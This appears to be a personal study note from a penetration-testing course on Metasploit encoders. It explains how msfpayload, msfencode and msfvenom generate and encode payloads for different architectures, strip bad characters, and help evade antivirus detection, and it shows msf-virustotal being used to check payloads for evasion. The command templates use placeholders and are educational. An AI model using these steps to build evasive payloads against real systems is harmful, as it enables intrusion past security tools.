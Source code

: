 - Encoders  makes payloads compatible within different processor.
- It also help with antivirus evasion.
- Encoders is used for changing the payload to run on different Operating System and Architecture.
	- These architecture include:
		- `x64`
		- `x86`
		- `sparc`
		- `ppc`
		- `mips`
	- They are also needed to remove hexadecimal opcodes known as `bad characters` from the payload.
- Encoding the payload in different formats could help with the `AV` detection.

## Selecting an Encoder:

- There are several different sub-modules that took care of payloads and encoders.
- They were kept separately from msfconsole script and were called ==`msfpayload`== and ==`msfencode`==.
- These two tools are located in ==`/usr/share/framework2`==
- To create a custom payload, go through ==`msfpayload`== and then encode it according t the target OS architecture using ==`msfencode`== 
	- `msfpayload <payload> LHOST=<local_add> LPORT=<Local_listening_port> R | msfencode -b '\x00' -f perl -e <encode>`

- ## Generating Payload -without Encoding
	- The scripts have combined within msfvenom tool.
	- The Generation and Encoding of payload is taken care at once by msfvenom after the update(2015).
		- `msfvenom -a x86 --platform windows -p <payload> LHOST=<local_add> LPORT=<local_port> -b "\x00" -f perl.`

	- To list the encoders that are present for the payload use ==`show encodes`==
		- this command will filter out the available encodes for the specific payloads.
	
	- ## MSFvenom encodes the payload in a file.
		
		- `msfvenom -a x86 --platform windows -p <payload> LHOST=<local_add> LPORT=<local_port> -e <preferred_encoder> -f <file_type> -o <./output_filename>`
	
	- ## MSF - VirusTotal:
		- Metasploit offers a tool called ==`msf-virustotal`== that can use an API key to analyze the payload.
			- `msf-virustotal -k <API key> -f <filename>`
		- This tool can help  a user to analyze the payload and prepare the payload for evasion.
[[Introduction to Metasploit]]